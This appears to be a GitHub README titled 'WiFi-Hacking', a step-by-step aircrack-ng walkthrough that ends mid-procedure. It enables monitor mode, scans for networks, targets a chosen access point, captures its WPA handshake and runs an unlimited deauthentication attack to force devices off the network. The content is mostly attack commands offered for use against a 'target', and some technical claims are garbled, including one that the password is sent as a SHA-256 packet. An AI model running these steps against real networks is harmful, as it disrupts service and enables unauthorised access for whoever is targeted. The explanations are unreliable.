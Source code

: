 <h1 align="center">Welcome to WiFi-Hacking 👋</h1>
<p>
  <img src="https://img.shields.io/badge/version-0.1-blue.svg?cacheSeconds=2592000" />
</p>

> 
### 🏠 [Homepage](https://github.com/AnandKatariya/WiFi-Hacking)
## Check
```sh
iwconfig
```
Check weather the mode is on moniter mode or managed mode.
## Clear all stuff

```sh
airmon-ng check kill
```
check and kill off processes that might interfere with the aircrack-ng suite.
## Moniter mode

```sh
airmon-ng start wlan0
```
Airmon-ng is used to read all the packets of data even if they are not sent to us. It controls the traffic received only on the wired/wireless networks. Wi-Fi adapters are mainly used for connecting your device to the internet. Most laptops, tablets, and mobile phones have an inbuild Wi-Fi card.
## Search the target

```sh
airodump-ng wlan0mon
```
After doing this you will able to see a interface that will show you wifi network around you which are available and with this you will able to see many other columns such as CH (channel), bssid and many more.
## Select the target

```sh
airodump-ng wlan0mon -c <ch> --bssid <target_mac>
```
A wireless penetration test will examine your network using a methodology similar to the standard wired penetration test. However, they will focus on the wireless as the gateway to exploit your vulnerabilities. Thus this will select your target.
## Save handshake

```sh
airodump-ng wlan0mon -c <ch> --bssid <target_mac> -w target_handshake
```
-w will save save you target handshake whenever it will capture. It will save in .cap name file. Now after this we want to disconnect someone who is connected to target's device. So we need to perform the aireplay attack so we will able to disconnect the any device which is connect to target's device  
## Open new terminal
## Disconnecting the device

```sh
aireplay-ng --deauth 0 -a <target_mac> wlan0mon
```
After doing this any one of the device will be disconnect and will able to try auto reconnect to the target (when this process is been happeing the waay is when any device is disconnect it will try to auto reconnect it and when it will try the password will transfer in terms of packet and the packet will be
SHA-256 bit algorithm) 
